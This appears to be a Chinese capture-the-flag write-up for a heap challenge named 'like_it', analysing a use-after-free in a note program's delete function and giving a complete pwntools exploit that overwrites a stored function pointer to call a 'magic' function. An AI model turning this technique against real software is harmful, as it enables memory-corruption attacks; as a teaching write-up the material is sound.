 # like_it

![assets/gitbook/images-20250804173926420](assets/gitbook/images/assets/gitbook/images-20250804173926420.png)

一道菜单题，方便起见，分别把1到3的函数称为add，delete，show，首先查看一下add函数

![assets/gitbook/images-20250804174209285](assets/gitbook/images/assets/gitbook/images-20250804174209285.png)

分析一下不难发现，函数的主要逻辑是遍历notelist链表，如果链表某个节点为空那么就在该处申请0x10大小的堆块，接着将print函数的地址存储到堆块的user data的前8字节区域(前面有0x10大小的chunk_header)，然后输入接下来申请堆块的大小，接着在user data+8字节处再申请一个堆块，最后read将用户输入的内容读入到其中

delete函数

![](assets/gitbook/images/Snipaste_2025-08-04_17-54-06.png)

可以看到delete函数中free了两次，但都没有将相应的指针清零，构成UAF漏洞可以利用

show函数

![assets/gitbook/images-20250804175822860](assets/gitbook/images/assets/gitbook/images-20250804175822860.png)

输入堆块索引，调用堆块中存储的print函数

程序还给了magic函数

![assets/gitbook/images-20250804180235954](assets/gitbook/images/assets/gitbook/images-20250804180235954.png)

以上为主要函数逻辑

利用思路：

可以利用delete函数中的UAF漏洞进行利用，先申请两个大堆块(执行两次add函数，实际上堆块中包含堆块，一共4个)把第一个大堆块称为chunk0，第二个称为chunk1，申请chunk0中堆块时，内容可以随便输入，大小可为0x18,0x20,0x28...，但不能为0x10，否则后面利用UAF的时候就无法申请到print函数所在堆块的位置，不能对其进行修改，同样chunk1也不能申请0x10的堆块

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
```

这道题比较少见，有个def函数，里面禁用了gdb的调试功能，导致无法调试，没办法展示调试过程了。。。

然后再把申请的两个chunk给free掉，此时4个chunk中的两个0x20，两个0x30(包含了chunk_head)全处于释放状态，且位于fastbin中的0x20和0x30链表中

```
delete(1)
delete(0)
```

这里释放的顺序需要注意下，由于fastbin是单项链表，遵循先进后出的原理，所以此时两个0x20大小的free_chunk状态是

chunk0->chunk1

接下来再把两个0x20大小的chunk申请回来，add函数中第一个已经帮我们申请了0x10(chunk0)，只要在申请0x10大小(chunk1)就能申请回来，那么此时的chunk0和chunk1都指向print所在位置，且chunk1可以让我们进行修改，把它改为magic，然后再调用show(1)，执行magic拿到flag

```
add(0x10,p64(magic))
show(0)
```

完整exp

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
delete(1)
delete(0)
add(0x10,p64(magic))
show(0)
p.interactive()
```

